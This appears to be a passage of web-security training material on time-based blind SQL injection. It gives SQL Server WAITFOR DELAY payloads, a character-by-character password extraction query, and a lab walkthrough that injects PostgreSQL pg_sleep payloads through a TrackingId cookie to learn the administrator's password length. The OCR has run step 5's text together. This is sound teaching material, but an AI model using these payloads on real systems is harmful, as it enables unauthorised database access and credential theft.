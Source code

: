 ## **Exploiting blind SQL injection by triggering time delays**

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## **Lab: Blind SQL injection with time delays and information retrieval**

1. Modify the `TrackingId` cookie, changing it to:`TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verify that the application takes 10 seconds to respond.
    
2. Now change it to:`TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.
    
3. Now change it to:`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Verify that the condition is true, confirming that there is a user called `administrator`.
    
4. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
5. Send a series of follow-up values to test different password lengths. Send:`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Then send:
    
    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
    